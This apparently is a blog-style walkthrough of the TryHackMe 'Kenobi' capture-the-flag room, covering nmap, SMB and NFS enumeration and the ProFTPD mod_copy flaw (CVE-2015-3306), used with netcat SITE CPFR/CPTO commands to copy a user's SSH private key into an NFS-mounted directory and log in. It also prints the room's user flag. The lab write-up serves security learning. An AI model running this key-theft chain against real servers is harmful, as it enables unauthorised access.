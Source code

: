 ```yaml
---
title: "TryHackMe - Kenobi CTF Walkthrough"
date: 2024-12-18
categories: [TryHackMe]
tags: [CTF, FTP, NFS, Privilege Escalation, CVE-2015-3306]
image: /assets/images/thm-cover/kenobi-cover.jpg
---
```


# TryHackMe: Kenobi Room Walkthrough

## Room Overview
**Room Name:** Kenobi  
**Difficulty:** Easy  
**Objective:** Exploit the target machine and obtain the user and root flags.

---

## Table of Contents
- [Reconnaissance](#reconnaissance)
- [Enumeration](#enumeration)
- [Exploitation](#exploitation)
- [Privilege Escalation](#privilege-escalation)
- [Conclusion](#conclusion)

---

## Reconnaissance

### 1. Nmap Scan
The first step was to scan the machine for open ports and services.

```bash
nmap -v -sCV -oN nmap.txt $IP
```

**Open Ports:**
- 21/tcp - FTP (ProFTPD 1.3.5)
- 22/tcp - SSH (OpenSSH 7.2p2 Ubuntu 4ubuntu2.7)
- 80/tcp - HTTP (Apache 2.4.18)
- 139/tcp - NetBIOS-SSN (Samba)
- 445/tcp - NetBIOS-SSN (Samba)
- 2049/tcp - NFS (Network File System)

---

## Enumeration

### 2. SMB Enumeration
We found several SMB shares that are accessible.

```bash
nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse -oN nmapenum.txt $IP
```

Key findings:
- **\\10.10.140.79\anonymous** - Read/Write access
- **\\10.10.140.79\IPC$** - Read/Write access

You can connect to the `anonymous` share using `smbclient`:

```bash
smbclient //$IP/anonymous -N
ls
```

### 3. NFS Enumeration
The NFS (Network File System) was also exposed, and `/var` was found to be mounted:

```bash
nmap -p 111 --script=nfs-ls,nfs-showmount -oN nmap-port111.txt $IP
```

**NFS Share Found:**
- `/var` directory was exportable.

---

## Exploitation

### 4. ProFTPD Exploit (CVE-2015-3306)
The FTP service (ProFTPD 1.3.5) was vulnerable to a command injection vulnerability that allowed us to copy the SSH private key (`id_rsa`) from the user's home directory.

```bash
nc $IP 21
SITE CPFR /home/kenobi/.ssh/id_rsa
SITE CPTO /var/tmp/id_rsa
```

### 5. Mount NFS Share
Once the SSH private key was copied, I mounted the `/var` directory using NFS to retrieve the `id_rsa` file.

```bash
sudo mkdir /mnt/kenobiNFS
sudo mount $IP:/var /mnt/kenobiNFS
```

Navigate to the directory where the SSH key was copied:
```bash
cd /mnt/kenobiNFS/tmp
```

### 6. SSH Access as `kenobi`
After retrieving the `id_rsa` key, I set the correct permissions and used it to SSH into the target machine as the `kenobi` user.

```bash
chmod 600 id_rsa
ssh -i id_rsa kenobi@$IP
```

### 7. User Flag
Once inside the machine as `kenobi`, I found the `user.txt` flag.

```bash
kenobi@kenobi:~$ ls
share  user.txt

kenobi@kenobi:~$ cat user.txt
d0b0f3f53b6caa532a83915e19224899
```

---

## Privilege Escalation

### 8. Checking `sudo` Permissions
After gaining access as `kenobi`, I checked if the user had any special `sudo` permissions.

```bash
sudo -l
```

Unfortunately, no direct sudo privileges were granted, so I continued to search for other methods of privilege escalation.

### 9. Searching for SUID Binaries
I searched for binaries with the SUID bit set that could be exploited to gain root access.

```bash
find / -perm -u=s -type f 2>/dev/null
```

### 10. Cron Jobs and System Misconfigurations
I checked for scheduled cron jobs and other misconfigurations that might be leveraged for privilege escalation:

```bash
cat /etc/crontab
```

---

## Conclusion

In this room, I was able to:
1. Perform enumeration on FTP, SMB, HTTP, and NFS services.
2. Exploit a vulnerability in ProFTPD to extract an SSH private key.
3. Use the NFS share to retrieve the `id_rsa` key and SSH into the target machine.
4. Successfully obtain the `user.txt` flag.

The room provided a comprehensive understanding of service enumeration, exploitation of file transfer protocols, and privilege escalation paths.

---

### Flags Obtained:
- **User Flag:** `d0b0f3f53b6caa532a83915e19224899`

---

### References:
- [ProFTPD CVE-2015-3306](https://www.exploit-db.com/exploits/36803)
- TryHackMe Kenobi Room
